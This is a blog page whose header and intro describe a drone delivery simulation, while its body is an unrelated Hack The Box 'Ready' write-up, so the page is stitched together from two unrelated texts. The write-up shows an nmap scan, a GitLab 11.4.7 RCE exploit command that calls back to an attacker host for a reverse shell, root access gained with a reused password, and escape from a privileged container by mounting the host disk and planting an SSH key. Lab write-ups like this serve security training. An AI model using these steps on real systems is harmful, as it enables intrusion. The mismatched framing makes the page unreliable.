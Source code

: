 ```yaml
---
layout: single
title: Drone flightpath simulation
excerpt:"This project emulates a food delivery service at the Edinburgh University Campus. It addresses the Travel Salesman Problem as the drone used to make the deliveries have a limited battery and the system must optimise the orders to achieve the highest value delivered. Adding on, to add difficulty to the project, there are no-fly zones delimeted in the campus through which the drone must not fly. In this way the drone must also improvise flightpaths when requiried."
date: 2021-12-22
classes: wide
header:
  teaser: /assets/images/flying-drone/drone.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - Algorithms
  - Simulation
tags:
  - Java
  - Simulation
  - Travel Salesman Problem
  - GeoJSON
---
```


![](/assets/images/flying-drone/drone.png)

This project emulates a food delivery service at the Edinburgh University Campus. It addresses the Travel Salesman Problem as the drone used to make the deliveries have a limited battery and the system must optimise the orders to achieve the highest value delivered. Adding on, to add difficulty to the project, there are no-fly zones delimeted in the campus through which the drone must not fly. In this way the drone must also improvise flightpaths when requiried.

## Portscan

```
sudo nmap -T4 -sC -sV -oA scan -p- 10.129.149.31
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 22:41 EDT
Nmap scan report for 10.129.149.31
Host is up (0.015s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.149.31:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

## Gitlab

The webserver on port 5080 runs a Gitlab instance.

![](/assets/images/htb-writeup-ready/gitlab1.png)

We have access to create a new account.

![](/assets/images/htb-writeup-ready/gitlab2.png)

Once logged in, we see in the projects list there's a single projet called *ready-channel*.

![](/assets/images/htb-writeup-ready/gitlab3.png)

To check the Gitlab version we go to the Help section and we can see it's running 11.4.7.

![](/assets/images/htb-writeup-ready/gitlab5.png)

A quick search on Exploit-DB shows there's an authenticated remote code execution vulnerability for this exact version.

![](/assets/images/htb-writeup-ready/gitlab6.png)

`python3 exploit.py -g http://10.129.149.31 -u snowscan2 -p yolo1234 -l 10.10.14.4 -P 4444`

Reverse shell connection:

![](/assets/images/htb-writeup-ready/shell.png)

![](/assets/images/htb-writeup-ready/user.png)

## Privesc

By running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we find a backup file with some SMTP credentials for the gitlab application. 

```
Found /opt/backup/gitlab.rb
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

That password is the same password as the root password for the container so we can privesc locally inside the container.

```
git@gitlab:/opt/backup$ su -l root
su -l root
Password: wW59U!ZKMbG9+*#h

root@gitlab:~# 
```

There's a root_pass file in the root of the filesystem but that's not useful.

```
cat /root_pass
YG65407Bjqvv9A0a8Tm_7w
```

If we look at the `/opt/backup/docker-compose.yml` configuration file, we can see it's a hint that we're running in a privileged container:

```
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m
```

Privileged containers can access the host's disk devices so we can just read the root flag after mounting the drive.

![](/assets/images/htb-writeup-ready/root.png)

To get a proper shell in the host OS we can drop our SSH keys in the root's .ssh directory.

```
root@gitlab:~# mount /dev/sda2 /mnt
mount /dev/sda2 /mnt
root@gitlab:~# echo 'ssh-rsa AAAAB3NzaC1y[...]+HUBS+l32faXPc= snowscan@kali' > /mnt/root/.ssh/authorized_keys

[...]

$ ssh root@10.129.150.37
The authenticity of host '10.129.150.37 (10.129.150.37)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.150.37' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

[...]

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 11 14:28:18 2021
root@ready:~# cat root.txt
b7f98681505cd39066f67147b103c2b3
```

